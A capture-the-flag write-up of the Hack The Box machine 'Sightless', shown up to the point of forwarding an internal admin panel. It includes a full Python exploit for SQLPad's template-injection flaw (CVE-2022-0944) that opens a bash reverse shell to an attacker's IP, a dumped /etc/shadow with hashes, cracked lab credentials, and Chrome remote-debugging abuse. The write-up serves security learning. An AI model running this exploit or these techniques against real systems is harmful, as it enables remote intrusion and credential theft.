 This is ranked as an easy box in HTB. I personally found the root flag part of this challeng very complex.Now diving into the challenge, started off with a Nmap scan

```diff
Nmap scan report for 10.10.11.32
Host is up (0.16s latency).
Not shown: 65532 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
21/tcp open  ftp
| fingerprint-strings: 
|   GenericLines: 
|     220 ProFTPD Server (sightless.htb FTP Server) [::ffff:10.10.11.32]
|     Invalid command: try being more creative
|_    Invalid command: try being more creative                                                                                                                        
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)                                                                          
| ssh-hostkey:                                                                                                                                              
|   256 c9:6e:3b:8f:c6:03:29:05:e5:a0:ca:00:90:c9:5c:52 (ECDSA)
|_  256 9b:de:3a:27:77:3b:1b:e1:19:5f:16:11:be:70:e0:56 (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://sightless.htb/
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port21-TCP:V=7.94SVN%I=7%D=10/16%Time=671009E1%P=x86_64-pc-linux-gnu%r(
SF:GenericLines,A0,"220\x20ProFTPD\x20Server\x20\(sightless\.htb\x20FTP\x2
SF:0Server\)\x20\[::ffff:10\.10\.11\.32\]\r\n500\x20Invalid\x20command:\x2
SF:0try\x20being\x20more\x20creative\r\n500\x20Invalid\x20command:\x20try\
SF:x20being\x20more\x20creative\r\n");
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.94SVN%E=4%D=10/16%OT=21%CT=1%CU=39657%PV=Y%DS=2%DC=T%G=Y%TM=671
OS:00A2A%P=x86_64-pc-linux-gnu)SEQ(SP=F4%GCD=1%ISR=111%TI=Z%CI=Z%II=I%TS=A)
OS:SEQ(SP=F5%GCD=1%ISR=111%TI=Z%CI=Z%II=I%TS=A)OPS(O1=M53CST11NW7%O2=M53CST
OS:11NW7%O3=M53CNNT11NW7%O4=M53CST11NW7%O5=M53CST11NW7%O6=M53CST11)WIN(W1=F
OS:E88%W2=FE88%W3=FE88%W4=FE88%W5=FE88%W6=FE88)ECN(R=Y%DF=Y%T=40%W=FAF0%O=M
OS:53CNNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS%RD=0%Q=)T2(R=N)T3(R=N)T
OS:4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+
OS:%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T7(R=Y%DF=Y
OS:%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T=40%IPL=164%UN=0%RIPL=G%
OS:RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=S)

Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 3306/tcp)
HOP RTT       ADDRESS
1   160.19 ms 10.10.14.1
2   161.23 ms 10.10.11.32
```

Firstly we need to add the IP address to /etc/hosts file and map it to sightless.htb. Now, visiting the site and checking out the source code reveals another endpoint, ==http://sqlpad.sightless.htb/==. Now, map sqlpad.sightless.htb also to the previously found IP as it seems to be a vhost. Upon further analysis, the version of sqlpad used is 6.10.0, which seems to be vulnerable to a Server Side Template Injection attack allowing for remote code execution. We can try to leverage this RCE vulnerability to gain foothold into this machine

Came across this payload on github by 0xRoqeeb. It does a great job

```diff
import argparse
import requests

def main():
   
    parser = argparse.ArgumentParser(description="CVE-2022-0944 RCE Exploit")
    parser.add_argument('root_url', help="Root URL of the SQLPad application")
    parser.add_argument('attacker_ip', help="attacker ip")
    parser.add_argument('attacker_port', help="attacker port")
    
    args = parser.parse_args()

    target_url = f"{args.root_url}/api/test-connection"

    payload = f"{{{{ process.mainModule.require('child_process').exec('/bin/bash -c \"bash -i >& /dev/tcp/{args.attacker_ip}/{args.attacker_port} 0>&1\"') }}}}"

    headers = {
        'Content-Type': 'application/json',
        'Accept': 'application/json'
    }

    #POST data (JSON body of the request)
    data = {
        "name": "test",
        "driver": "mysql",
        "data": {
            "database": payload
        },
        "database": payload
    }

    try:
        response = requests.post(target_url, headers=headers, json=data)
       
        print(f"Response status code: {response.status_code}")
        print(f"Response body: {response.text}")

        if response.status_code == 200:
            print(f"Exploit sent successfully. Check your listener on {args.attacker_ip}:{args.attacker_port}")
        else:
            print(f"Exploit sent, but server responded with status code: {response.status_code}. Check your listener.")
    except Exception as e:
        print(f"Error: {e}")

if __name__ == "__main__":
    main()
```

By using the above exploit, we have gained shell
![alt text](/assets/image12.png)
Don't be fooled by the root username, we are inside a docker instance. It took me a while to find out way to move forward from here. Initially my thinking was to break out of this instance, but then while doing the regular recon, noticed that we had access to the /etc/shadow file

```diff
cat /etc/shadow
root:$6$jn8fwk6LVJ9IYw30$qwtrfWTITUro8fEJbReUc7nXyx2wwJsnYdZYm9nMQDHP8SYm33uisO9gZ20LGaepC3ch6Bb2z/lEpBM90Ra4b.:19858:0:99999:7:::
daemon:*:19051:0:99999:7:::
bin:*:19051:0:99999:7:::
sys:*:19051:0:99999:7:::
sync:*:19051:0:99999:7:::
games:*:19051:0:99999:7:::
man:*:19051:0:99999:7:::
lp:*:19051:0:99999:7:::
mail:*:19051:0:99999:7:::
news:*:19051:0:99999:7:::
uucp:*:19051:0:99999:7:::
proxy:*:19051:0:99999:7:::
www-data:*:19051:0:99999:7:::
backup:*:19051:0:99999:7:::
list:*:19051:0:99999:7:::
irc:*:19051:0:99999:7:::
gnats:*:19051:0:99999:7:::
nobody:*:19051:0:99999:7:::
_apt:*:19051:0:99999:7:::
node:!:19053:0:99999:7:::
michael:$6$mG3Cp2VPGY.FDE8u$KVWVIHzqTzhOSYkzJIpFc2EsgmqvPa.q2Z9bLUU6tlBWaEwuxCDEP9UFHIXNUcF2rBnsaFYuJa6DUh/pL2IJD/:19860:0:99999:7:::
```

The last user, michael looked interesting. Tried to break his password hash and found the password to be ==insaneclownposse==. Now SSH to 10.10.11.32 using michael:insaneclownposse and we have the user.txt

This is where things get complex. I looked around for the usual misconfiguration in SUDO and SUID permissions and similar stuff. During the recon, came across the following from the linpeas scan


![alt text](/assets/image13.png)

Chrome should not be run on debug mode, as this exposes sensitive login information to attackers, which might lead to exploitation. Here the debug mode is set to run on port 0, meaning any available port. So, it will be hard to pin-point which port is running chrome debug 

![alt text](/assets/image14.png)

These ports are only running locally, so to test them, we need port-froward and using trial and error I found the needed port to be 40865. I used to following command for port-forwarding all the above shown ports

```diff
ssh -L 40865:127.0.0.1:40865 -L 42293:127.0.0.1:42293 -L 49443:127.0.0.1:49443 -L 33060:127.0.0.1:33060  michael@10.10.11.32                    

```

Additionally, we to configure 127.0.0.1:40865 in chrome://inspect/#devices. This helps the chrome browser inspect, what is happening in a remote browser. Once, this is done we can inspect what is happening 

![alt text](/assets/image15.png)

There seems to be another endpoint ==admin.sightless.htb== with the credentials admin:ForlorfroxAdmin. It seems to running on internal port 8080. Let's try to port-forward this and login using the above credentials
.Also, map 127.0.0.1:8080 to admin.sightlless.htb

```diff
ssh -L 8080:127.0.0.1:8080  michael@10.10.11.32                    
```

